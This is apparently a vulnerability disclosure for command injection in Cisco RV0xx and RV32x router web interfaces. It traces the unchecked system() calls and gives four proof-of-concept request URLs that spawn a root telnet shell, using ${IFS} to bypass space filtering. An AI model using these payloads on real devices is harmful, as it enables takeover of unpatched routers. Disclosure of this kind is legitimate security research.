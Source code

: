 # Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

Cisco RV016 Multi-WAN VPN Router

Cisco RV042 Dual WAN VPN Router

Cisco RV042G Dual Gigabit WAN VPN Router

Cisco RV082 Dual WAN VPN Router

Cisco RV320 Dual Gigabit WAN VPN Router

Cisco RV325 Dual Gigabit WAN VPN Router

**Affected firmware version:**

RV0xx Series Routers firmware : 4.2.3.14 (the latest release version)

RV32x Series Routers firmware : 1.5.1.13 (the latest release version)

**Firmware download address:** 

[RV0xx Series Routers firmware](https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14 "https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14")

[RV32x Series Routers firmware](https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13 "https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13")

# Overview

`Cisco RV0xx and RV32x Series VPN Routers` was detected with `command injection vulnerabilities`. These vulnerabilities are caused by lax verification of user input. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerabilities were detected in the **`/usr/local/EasyAccess/www/cgi-bin/config.exp`** binary. In addition, these vulnerabilities also exist in the similar binary file **`/usr/local/EasyAccess/www/cgi-bin/config_mirror.exp`**.

In the `main` function. We can see that when the string `cert_request&` is included in our request, it will enter the `exportconfig_CertRequest` function.

![](./pic/8.png)

In the `exportconfig_CertRequest` function. When there is number `1` between the first two `&`, everything between the second and the third `&` or the third and the last `&` is concatenated unchecked into `acStack1128` and executed as an argument to the `system` function.

![](./pic/9.png)

![](./pic/10.png)

Therefore, we can select `1` and write the malicious command between the second and the third `&` or the third and the last `&` and execute it.

Similarly, in the `exportconfig_CertRequest` function. When there is number `2`(both firmwares) or `3` (only `RV0xx` Series Routers firmware) between the first two `&`, everything between the second and the third `&` or the third and the fourth `&` or after the fourth `&` is concatenated unchecked into `acStack1128` and executed as an argument to the `system` function.

![](./pic/12.png)

![](./pic/10.png)

Therefore, we also can select `2` or `3` and write the malicious command between the second and the third `&` or the third and the fourth `&` or after the fourth `&` and execute it.

# Poc

However, in the actual test, we found that these devices filtered spaces, so we can't inject some commands directly. But it is possible to use `${IFS}` instead of space to bypass the filtering. Therefore, we can do this by injecting the `/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh` command.

## Case 1

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config.exp?cert_request&1&abc&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;&123` by the `POST` request.

## Case 2

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config_mirror.exp?cert_request&1&abc&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;&123` by the `POST` request.

## Case 3

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config.exp?cert_request&2&abc&123&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;` by the `POST` request.

## Case 4

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config_mirror.exp?cert_request&2&abc&123&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;` by the `POST` request.

# Attack Demo

Before the attack, scan the ports of the router to ensure that port `23` of the `telnet` service is not enabled.

![](./pic/3.png)

Follow the POC above to make the request.

**Case 1 : **

![](./pic/11.png)

**Case 3 : **

![](./pic/13.png)

After the attack is completed, we performed a port scan again and found that the `telnet` service has been successfully started. And then, we successfully logged into the device remotely and got the `root shell` of the device.

![](./pic/5.png)

![](./pic/22.png)